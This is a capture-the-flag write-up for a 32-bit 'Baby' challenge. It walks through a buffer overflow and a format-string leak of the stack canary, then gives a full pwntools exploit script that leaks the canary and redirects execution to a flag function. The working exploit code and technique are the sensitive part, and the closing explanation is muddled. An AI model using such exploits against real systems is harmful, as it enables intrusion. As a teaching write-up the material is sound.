 # Baby
```
How do you tackle cookies?

nc challenge1.lagncrash.com 10000
```
32 bit binary with canary<br>
Partial RELRO possible got.plt overwrite?
<br>
![](./2.png)
<br>
From ghidra we can see it reads in 512 char but only allocates 100 char to local_74 hence a buffer overflow & a printf() which is an indication of a possible format string vulnerability.
<br>
![](./1.png)
<br>
Location of stack canary(ebp-0xc):
<br>
![](./3.png)
<br>
Using format string exploit which the canary value is shown on the 31th
<br>
![](./4.png)
<br>
Canary value:
<br>
![](./5.png)
<br>
From: https://guyinatuxedo.github.io/7.1-mitigation_canary/index.html
<br>
![](./6.png)
<br>
Getting flag() address from ghidra(0x080491d2):
<br>
![](./7.png)
<br>
```
from pwn import *
import codecs

#binary = remote("challenge1.lagncrash.com", 10000)
binary = process('./baby')
binary.recvline()

fsb = "%31$x"                 #Gets canary value
binary.sendline(fsb)

canary = binary.recv()[:-1]   #remove newline
print("Canary @ " + canary)

#Convert 41414242 to AABB then inverts it BBAA 
while len(canary) != 8:canary="0"+canary
canary = codecs.decode(canary, 'hex_codec')
canary = canary[::-1]
#gdb.attach(binary)

#View bottom
binary.sendline("\x90"*100+canary+"\x90"*12+p32(0x080491d2))
print(binary.recv())
#binary.interactive()
#binary.close()
```
Overwrites return address to canary address, which returns to main(0x0849363) hence overwriting the 12 char and then the flag address(0x080491d2)
<br>
![](./8.png)
<br>
